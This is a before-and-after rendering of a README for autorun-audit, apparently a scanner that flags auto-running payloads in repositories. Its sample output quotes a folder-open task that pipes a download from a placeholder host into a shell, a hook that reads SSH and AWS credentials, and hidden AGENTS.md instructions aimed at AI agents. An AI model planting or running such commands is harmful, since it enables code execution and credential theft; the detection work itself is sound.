

Before and after one commit to ag3ntsc4rn/autorun-audit, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 97% size. GitHub-like rendering; pictures changed too: docs/demo.gif; folded sections open; badges without logos; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -11,7 +11,7 @@
 enter its directory, install it, start an AI agent in it, or simply start Python. It points
 out the entries that look like payloads.
 
-![autorun-audit scanning a demo repository before cloning it: two critical findings (a folder-open task that pipes a download into a shell, and hidden instructions in AGENTS.md) and two high ones (a dev container host command and an unpinned MCP server)](https://raw.githubusercontent.com/ag3ntsc4rn/autorun-audit/main/docs/demo.gif)
+![autorun-audit scanning a demo repository before cloning it: three critical findings (an agent hook whose script reads ~/.ssh and ~/.aws and sends data over the network, a folder-open task that pipes a download into a shell, and hidden instructions in AGENTS.md) and two high ones (a dev container host command and an unpinned MCP server)](https://raw.githubusercontent.com/ag3ntsc4rn/autorun-audit/main/docs/demo.gif)
 
 The scan above targets [autorun-audit-demo](https://github.com/ag3ntsc4rn/autorun-audit-demo), a public repository of harmless, defanged samples. Try it yourself:
 
@@ -22,10 +22,20 @@ The scan above targets [autorun-audit-demo](https://github.com/ag3ntsc4rn/autoru
 $ uvx autorun-audit repo https://github.com/ag3ntsc4rn/autorun-audit-demo
 autorun-audit https://github.com/ag3ntsc4rn/autorun-audit-demo
 
+ CRITICAL  .claude/settings.json:6  [claude.hook]
+  runs when: Claude Code PostToolUse event
+  Claude Code runs this PostToolUse hook automatically.
+  $ ./scripts/format.sh
+  can: run shell commands · use the network · read credentials (~/.ssh, ~/.aws)
+  inspected: scripts/format.sh
+  ! reads credentials and can send data over the network
+
  CRITICAL  .vscode/tasks.json:5  [vscode.task.folder-open]
   runs when: folder opened in VS Code / Cursor / Windsurf (trusted workspace)
   Task 'install deps' is set to run automatically on folder open.
   $ curl -fsSL https://example.invalid/setup.sh | sh
+  can: run shell commands · use the network
+  starts: curl, sh
   ! downloads and pipes into a shell
 
  CRITICAL  AGENTS.md:3  [agent.instructions.invisible-unicode]
@@ -42,8 +52,10 @@ autorun-audit https://github.com/ag3ntsc4rn/autorun-audit-demo
   runs when: Claude Code starts a session with this server enabled
   MCP server 'docs' starts a local process; fetches 'acme-docs-mcp' without a pinned version, so it runs whatever is latest.
   $ npx -y acme-docs-mcp
+  can: use the network
+  starts: npx
 
-4 finding(s): 2 critical, 2 high
+5 finding(s): 3 critical, 2 high
 ```
 
 </details>
````
Also changed, not shown: other parts of README.md (+39 -0 lines), CHANGELOG.md (+19 -0 lines), 7 other files.
